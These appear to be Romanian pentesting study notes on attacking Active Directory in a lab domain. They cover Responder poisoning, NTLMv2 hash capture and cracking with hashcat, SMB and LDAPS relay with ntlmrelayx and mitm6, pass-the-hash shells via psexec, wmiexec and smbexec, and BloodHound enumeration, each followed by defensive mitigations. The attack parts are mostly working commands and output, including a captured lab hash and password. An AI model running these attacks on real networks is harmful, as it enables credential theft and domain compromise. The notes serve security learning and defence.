Este echivalent cu „arată-mi tot ce are asociat SPN în AD”.
```powershell
setspn -T MARVEL.local -Q */*
Checking domain DC=MARVEL,DC=local
CN=HYDRA-DC,OU=Domain Controllers,DC=MARVEL,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/HYDRA-DC.MARVEL.local
        ldap/HYDRA-DC.MARVEL.local/ForestDnsZones.MARVEL.local
        ldap/HYDRA-DC.MARVEL.local/DomainDnsZones.MARVEL.local
        DNS/HYDRA-DC.MARVEL.local
        GC/HYDRA-DC.MARVEL.local/MARVEL.local
        RestrictedKrbHost/HYDRA-DC.MARVEL.local
        RestrictedKrbHost/HYDRA-DC
        RPC/5e93da09-87ac-40d9-8d99-6af92fe3fe43._msdcs.MARVEL.local
        HOST/HYDRA-DC/MARVEL
        HOST/HYDRA-DC.MARVEL.local/MARVEL
        HOST/HYDRA-DC
        HOST/HYDRA-DC.MARVEL.local
        HOST/HYDRA-DC.MARVEL.local/MARVEL.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/5e93da09-87ac-40d9-8d99-6af92fe3fe43/MARVEL.local
        ldap/HYDRA-DC/MARVEL
        ldap/5e93da09-87ac-40d9-8d99-6af92fe3fe43._msdcs.MARVEL.local
        ldap/HYDRA-DC.MARVEL.local/MARVEL
        ldap/HYDRA-DC
        ldap/HYDRA-DC.MARVEL.local
        ldap/HYDRA-DC.MARVEL.local/MARVEL.local
CN=krbtgt,CN=Users,DC=MARVEL,DC=local
        kadmin/changepw
CN=SQL Service,CN=Users,DC=MARVEL,DC=local
        HYDRA-DC/SQLService.MARVEL.local:60111

Existing SPN found!
```

# Attacking Active Directory: Initial Attack Vectors:
## Initial AD Attack Vectors:
### LLMNR Poisoning Overview:
`LLMR `                         - Protocol de rezolvare a numelor folosit când DNS nu răspunde; vulnerabil la spoofing și folosit de Responder pentru a captura hash-uri NTLM.

`LLMR Poisoning`                - Atac în care atacatorul răspunde fals la cererile LLMNR din rețea, făcând o stație să se autentifice către el; astfel capturează hash-uri NTLM care pot fi apoi crăckate sau folosite pentru relay.

`NBT-NS`                        - Mecanism vechi de rezolvare a numelor (NetBIOS Name Service); poate fi ușor falsificat pentru a redirecționa traficul către un atacator și pentru a captura autentificări.


`WPAD`                          - Protocol pentru descoperirea automată a configurării proxy; poate fi exploatat dacă nu este configurat corect, permițând atacatorului să furnizeze un proxy malițios și să intercepteze traficul.

Vrei să continui și cu:

```bash
sudo responder -I tun0 -dwP
```
Dupa ce primim hash-ul o sa avem posibilitatea dea face brut la hash cu `hashcat` sau `john`:
```bash
hashcat -m 5600 hashes.txt rockyou.txt
```

Memul cu LLMR Poisoning:


Attacul dat lucreaza in forma urmatoare:

 


### Capturing Hashes with Responder:

```bash
responder -I eth0 -dwv
```
Dupa aceasta utilizatorul aceseasa resursa gresita de genu `\\<IP_responder>` si primim hash-ul acestuia

```
[*] [DHCP] Found DHCP server IP: 172.16.49.254, now waiting for incoming requests...
[*] [NBT-NS] Poisoned answer sent to 172.16.49.145 for name MARVEL (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 172.16.49.145 for name MARVEL (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 172.16.49.145 for name MARVEL (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 172.16.49.145 for name MARVEL (service: Browser Election)
[SMB] NTLMv2-SSP Client   : 172.16.49.145
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:68e9075bfd1a2253:1711F02FB7EEC04D0D1C79D77E75C4DD:010100000000000080C81BF93958DC01BCF43009E325FB3F00000000020008004D0034004F00330001001E00570049004E002D004E00460044003500580049005A00540048003600540004003400570049004E002D004E00460044003500580049005A0054004800360054002E004D0034004F0033002E004C004F00430041004C00030014004D0034004F0033002E004C004F00430041004C00050014004D0034004F0033002E004C004F00430041004C000700080080C81BF93958DC0106000400020000000800500050000000000000000100000000200000C8B8E417918D95A60079B84E45599682D06AD2ABD1BC3305E86DD55534C20515BF57E9B0E29ADEE6245AFDAB1992C94561BD476AC88355299BB27C88B7580F890A001000000000000000000000000000000000000900240063006900660073002F003100370032002E00310036002E00340039002E003100340033000000000000000000
```

###  Cracking Our Captured Hashes:
```bash
hashcat -m 5600 hash.fcastle all.txt
```
Rezultatul trebuie sa arata in felul urmator:
```bash
FCASTLE::MARVEL:68e9075bfd1a2253:1711f02fb7eec04d0d1c79d77e75c4dd:010100000000000080c81bf93958dc01bcf43009e325fb3f00000000020008004d0034004f00330001001e00570049004e002d004e00460044003500580049005a00540048003600540004003400570049004e002d004e00460044003500580049005a0054004800360054002e004d0034004f0033002e004c004f00430041004c00030014004d0034004f0033002e004c004f00430041004c00050014004d0034004f0033002e004c004f00430041004c000700080080c81bf93958dc0106000400020000000800500050000000000000000100000000200000c8b8e417918d95a60079b84e45599682d06ad2abd1bc3305e86dd55534c20515bf57e9b0e29adee6245afdab1992c94561bd476ac88355299bb27c88b7580f890a001000000000000000000000000000000000000900240063006900660073002f003100370032002e00310036002e00340039002e003100340033000000000000000000:Password123456789
```

### LLMNR Poisoning Mitigation:

#### Cea mai eficientă metodă de protecție este dezactivarea LLMNR și NBT-NS.
Cum dezactivezi LLMNR:
În Group Policy, mergi la:

Local Computer Policy → Computer Configuration → Administrative Templates → Network → DNS Client și activezi opțiunea „Turn OFF Multicast Name Resolution”.

Cum dezactivezi NBT-NS:

Deschizi setările plăcii de rețea:

Network Connections → Proprietățile adaptorului → TCP/IPv4 → Advanced → WINS și selectezi „Disable NetBIOS over TCP/IP”.

Dacă organizația nu poate renunța la LLMNR / NBT-NS, atunci se recomandă:

Network Access Control (NAC):

Pentru a controla ce dispozitive au voie să se conecteze în rețea.

Parole puternice:

Parole lungi (ideal peste 14 caractere), complexe și care evită termeni comuni.Cu cât parola este mai solidă, cu atât este mai greu pentru un atacator să spargă hash-ul capturat.

Mitigarea atacurilor de tip LLMNR (Link-Local Multicast Name Resolution) și NBT-NS (NetBIOS Name Service)
 **Cea mai bună apărare este dezactivarea LLMNR și NBT-NS:**
1. **Dezactivarea LLMNR:**
    - Accesează:
        - _Local Computer Policy_ > _Computer Configuration_ > _Administrative Templates_ > _Network_ > _DNS Client_.
    - Selectează opțiunea: **"Turn OFF Multicast Name Resolution"**.
2. **Dezactivarea NBT-NS:**
    - Accesează:
        - _Network Connections_ > _Network Adapter Properties_ > _TCP/IPv4 Properties_ > _Advanced tab_ > _WINS tab_.
    - Selectează opțiunea: **"Disable NetBIOS over TCP/IP"**.



Aceștea sunt pași care trebuie urmați pentru a micșora riscul acestui atac.


### SMB Relay Attacks:
`SMB`                           - Protocol de partajare a fișierelor și imprimantelor în rețele Windows; poate fi abuzat pentru atacuri precum SMB Relay dacă SMB signing nu este activat.

`SMB Relay`                     - În loc să spargem (crack-uim) hash-urile capturate cu Responder, putem redirecționa (relay) aceste hash-uri către anumite sisteme din rețea și, în unele cazuri, putem obține acces direct fără a cunoaște parola.

Requirements:
- SMB signing trebuie să fie dezactivat sau să nu fie impus (not enforced) pe țintă.
- Credentialele reluate (relayed user credentials) trebuie să fie de administrator pe mașina țintă pentru a avea valoare reală (pentru a putea executa acțiuni privilegiate).

Pentru a starta acest tip de attack trebuie sa configuram fisierul `nano /usr/share/responder/Responder.conf`


Suntem interesati in 2 setari:
```
SMB = Off
HTTP = Off
```

Identify Hosts without SMB Signing:
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```


Cu scripturile la `nmap` putem depista hosturile care nu semneaza `smb` si sa le scriem intrun fisier ca `target.txt`:

Instalam srcipturile `impacket-*`:
```bash
sudo apt install impacket-scripts
```

```bash
impacket-ntlmrelayx -tf target.txt -smb2support
impacket-ntlmrelayx -tf target.txt -smb2support -i # to get shell we can use -i si pe urma nc -lvnp <portul_care_este_returnat_de_ntlmrelayx>
impacket-ntlmrelayx -tf target.txt -smb2support -c "whoami" # rulam de odata comanda dorita  
```
### SMB Relay Attacks Defenses:
1. Activează SMB Signing pe toate dispozitivele
- Pro: Blochează complet atacul
- Contra: Poate cauza probleme de performanță la transferurile de fișiere

2. Dezactivează autentificarea NTLM în rețea
- Pro: Blochează complet atacul
- Contra: Dacă Kerberos încetează să funcționeze, Windows revine automat la NTLM

3. Account tiering (separarea nivelurilor de conturi)

- Pro: Limitează accesul administratorilor de domeniu doar la anumite task-uri
(ex.: se loghează doar pe serverele care chiar necesită privilegii DA)
- Contra: Poate fi dificil de implementat și aplicat consecvent
 
4. Restricționarea administratorilor locali

- Pro: Poate preveni o mare parte din mișcarea laterală
- Contra: Poate crește numărul de tichete / probleme raportate la service desk

### Gaining Shell Access:
Sunt multe metode de-a primi un shell pe host o sa discutam despre `msfconsole` shell in cazul acesta:

Folosim modulul din msfconsole `windows/smb/psexec` setam optiunele pentru RHOST si altele pe urma `exploit`:

Pentru a primi un shell pe hosturile noastre putem sa folosim si utilita `psexec.py` in felul urmator:
```bash
psexec.py marvel.local/fcastle:'Password1'@<IP_addresa>
```


In utilitele date avem posibilitatea sa folosim nu doar `passwordul` dar putem sa folosim de odata si `hash`-ul pentru a ne loga si a primi un shell:
```bash
psexec.py administrator@<IP> -hashes LM:NT
```


In modulele de `msfconsole` la fel avem posibilitatea sa folosim un hash in loc de parola directa:



Mai avem un tool pentru a primi un shell pe host:
```bash
wmiexec.py administrator@<IP> -hashes LM:NT 
```



Toolul dat la fel este pentru a generea un shell pe host `smbexec.py`:
```bash
smbexec.py administrator@<IP> -hashes LM:NT
```

```bash

```

###  IPv6 Attacks Overview:
`LDAP Relay`        - Atac în care atacatorul folosește autentificarea NTLM primită de la o victimă și o retransmite (relay) către un server LDAP/LDAPS din Active Directory. Dacă signing nu este impus, atacatorul poate modifica atribute AD (ex. adăugare utilizatori la grupuri, schimbarea parolelor, delegări).

`Mitm6`             - Instrument de atac care exploatează preferința Windows pentru IPv6. Atacatorul creează un server IPv6 fals (rogue DHCPv6/DNS) și redirecționează traficul victimei. În combinație cu NTLM Relay, poate trimite autentificarea victimei către DC și obține acces privilegiat.


### IPv6 DNS Takeover via mitm6:
Install `mitm6`:
```bash
sudo pip2 install mitm6
# sau 
sudo apt install mitm6
```
Rularea tipului de attack relay:
```bash
impacket-ntlmrelayx -6 -t ldaps://172.16.49.144 -wh fakewpad.marve.local -l lootme 
...

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
...
```

Rulam si attackul de mitm pentru a prinde hash-urile:
```bash
sudo mitm6 -d marvel.local
...
Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:0c:29:46:c7:6a]
IPv4 address: 172.16.49.143
IPv6 address: fe80::75a2:c2dd:e312:bfa3
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::9991:1 is now assigned to mac=00:0c:29:5f:12:82 host=HYDRA-DC.MARVEL.local. ipv4=
IPv6 address fe80::9991:2 is now assigned to mac=00:0c:29:03:5f:85 host=SPIDERMAN.MARVEL.local. ipv4=
...
```
Dupa ce sunt setate toolurile date este nevoie sa facem un reboot la unul din useri. Dupa asta o sa putem vedea ceva de genul dat:


`ntlmrelay` trebuie sa ne returneze ceva de genul dat:



Ideiea consta in aceea ca daca nu a fost nici o logare este posibil sa avem un account de honeypot 

### IPv6 Attack Defenses:
1. Blochează traficul IPv6 abuzat de mitm6 (dacă nu folosești IPv6 intern)

        Atacurile de tip IPv6 poisoning (ex: mitm6) profită de faptul că Windows face automat interogări IPv6 chiar și în rețele doar IPv4.
        Dacă organizația nu folosește IPv6, cea mai sigură metodă este:

        🔹 Blochează în firewall (prin GPO) următoarele tipuri de trafic:

            Inbound → DHCPv6
            Core Networking – Dynamic Host Configuration Protocol for IPv6 (DHCPv6-In)
            Inbound → Router Advertisement
            Core Networking – Router Advertisement (ICMPv6-In)
            Outbound → DHCPv6
            Core Networking – Dynamic Host Configuration Protocol for IPv6 (DHCPv6-Out)

Acest lucru previne atacatorul să se prezinte ca DNS/DHCPv6 fals (ce face mitm6).

⚠ Dezactivarea completă a IPv6 poate crea efecte nedorite, de aceea blocarea traficului recomandat este preferată.

2. Dezactivează WPAD dacă nu este folosit

        Dacă organizația nu folosește WPAD:
        dezactivează-l prin Group Policy
        dezactivează serviciul WinHttpAutoProxySvc
        Asta previne atacuri în care un server WPAD fals redirecționează traficul victimei.

3. Blochează LDAP Relay

        Relay-ul către LDAP/LDAPS poate fi prevenit DOAR prin:
        activarea LDAP Signing
        activarea LDAP Channel Binding
        Fără aceste două setări → DC-ul poate accepta NTLM Relay.

4. Protejează conturile sensibile

        Pune utilizatorii administrativi în Protected Users
        SAU
        marchează conturile ca „Account is sensitive and cannot be delegated”

Asta previne impersonarea lor prin relay/delegare abuzivă.

### Passback Attacks:
A Pen Tester’s Guide to Printer Hacking - https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/

### Initial Internal Attack Strategy:
1. Begin the day with mitm6 or Responder

Start by running mitm6 or Responder to catch NTLM traffic early.
These tools work best when users start logging in and generating network activity.

2. Run scans to generate traffic

Perform network scans (Nmap, Masscan, etc.) to stimulate additional traffic.
More traffic = more chances to capture credentials or relay authentication.

3. If scans take too long, look for websites in scope

If scanning is slow, enumerate websites or web services quickly using something like:

        http_version
        lightweight web scanners
        banner grabbing
        Web services often reveal easy entry points.

4. Look for default credentials on web logins

Always check internal admin panels or devices for factory-default credentials:

        Printers
        Jenkins
        Cameras
        Switches / Routers
        Web dashboards
        Anything with a login page
        These are common and often overlooked.

5. Think outside the box

Be creative.
Try unusual attack paths, forgotten systems, weird ports, abandoned applications — internal networks often have many misconfigurations.


## Attacking Active Directory: Post-Compromise Enumeration:
✔ There are a few tools that offer quick and efficient enumeration:

        BloodHound
        PlumHound
        ldapdomaindump
        PingCastle
        And whatever else your heart desires
### Domain Enumeration with ldapdomaindump:
#TODO descriere
```bash
sudo ldapdomaindump ldaps://<IP> -u 'MARVEL\fcastle' -p Password1
```

### Domain Enumeration with Bloodhound:
Install bloodhound:
```bash
pip isntall bloodhound
#sau prin apt
sudo apt intall bloodhound
``` 
Rulam `neo4j` pentru baza de date:
```bash
sudo neo4j console
```
